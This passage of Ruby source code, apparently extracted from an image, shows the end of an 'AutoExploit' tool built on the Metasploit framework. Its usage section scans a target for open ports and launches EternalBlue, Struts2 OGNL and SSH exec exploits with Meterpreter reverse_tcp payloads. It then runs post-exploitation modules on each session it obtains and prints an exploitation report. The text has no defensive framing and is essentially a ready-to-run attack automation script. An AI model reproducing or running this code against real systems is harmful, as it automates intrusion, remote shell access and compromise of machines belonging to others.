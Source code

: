 ```ruby
    ]
    
    post_modules.each do |mod_name|
      begin
        mod = @framework.modules.create(mod_name)
        next unless mod
        
        mod.datastore['SESSION'] = session.sid
        
        puts "[+] Running #{mod_name}"
        mod.run_simple(
          'LocalInput' => Rex::Ui::Text::Input::Stdio.new,
          'LocalOutput' => Rex::Ui::Text::Output::Stdio.new
        )
        
      rescue => e
        puts "[-] Error running #{mod_name}: #{e.message}"
      end
    end
  end
  
  def generate_report
    puts "\n" + "="*50
    puts "EXPLOITATION REPORT"
    puts "="*50
    
    @results.each do |result|
      puts "\nTarget: #{result[:target]}"
      puts "Exploit: #{result[:exploit]}"
      puts "Payload: #{result[:payload]}"
      puts "Success: #{result[:success]}"
      puts "Session ID: #{result[:session_id]}" if result[:session_id]
      puts "-" * 30
    end
  end
end

# Usage example
if __FILE__ == $0
  auto_exploit = AutoExploit.new
  
  target = ARGV[0] || '192.168.1.100'
  ports = [21, 22, 23, 25, 53, 80, 110, 443, 993, 995]
  
  # Scan target
  auto_exploit.scan_target(target, ports)
  
  # Attempt common exploits
  exploits = [
    ['exploit/windows/smb/ms17_010_eternalblue', 'windows/x64/meterpreter/reverse_tcp'],
    ['exploit/multi/http/struts2_content_type_ognl', 'linux/x64/meterpreter/reverse_tcp'],
    ['exploit/linux/ssh/sshexec', 'linux/x64/meterpreter/reverse_tcp']
  ]
  
  exploits.each do |exploit_mod, payload_mod|
    session = auto_exploit.exploit_target(target, exploit_mod, payload_mod)
    if session
      auto_exploit.post_exploitation(session)
    end
  end
  
  auto_exploit.generate_report
end
```